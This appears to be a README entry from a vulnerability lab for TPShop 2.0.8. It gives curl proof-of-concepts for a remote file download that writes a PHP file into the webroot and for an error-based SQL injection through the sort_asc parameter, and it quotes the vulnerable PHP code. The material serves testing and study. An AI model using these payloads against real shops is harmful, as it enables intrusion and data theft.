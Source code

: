 ## 特殊说明

后台地址为 `http://127.0.0.1/index.php/Admin/Index/index`

## Home/test/dlfile 远程文件下载

测试镜像

* src/topshop/2.0.8/

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
curl 'http://127.0.0.1/index.php/Home/test/dlfile' -d 'file_url=http://127.0.0.1/robots.txt&save_to=/var/www/html/robots.php'
curl 127.0.0.1/robots.php
```

## shop_price sort_asc 参数报错注入

测试镜像

* src/topshop/2.0.8/

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
curl 'http://127.0.0.1/index.php/Home/Goods/goodsList/id/1/sort/shop_price/sort_asc/,(updatexml(2,concat(0x7e,(version())),0))'
```

关键代码

```
# 获取参数
$sort_asc = I('get.sort_asc','asc');

...

# 注入
$goods_list = M('goods')->where(['is_on_sale' => 1, 'goods_id' => ['in', implode(',', $filter_goods_id)]])->order("$sort $sort_asc")->limit($page->firstRow . ',' . $page->listRows)->select();
```

